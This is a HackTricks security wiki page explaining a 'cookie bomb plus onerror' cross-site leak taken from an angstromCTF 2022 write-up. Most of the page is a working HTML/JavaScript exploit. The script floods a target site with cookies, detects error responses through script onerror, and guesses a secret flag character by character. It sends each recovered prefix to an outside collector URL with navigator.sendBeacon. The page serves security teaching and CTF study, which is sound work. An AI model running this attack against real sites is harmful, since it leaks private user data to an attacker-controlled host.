# Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

{{#include ../../banners/hacktricks-training.md}}

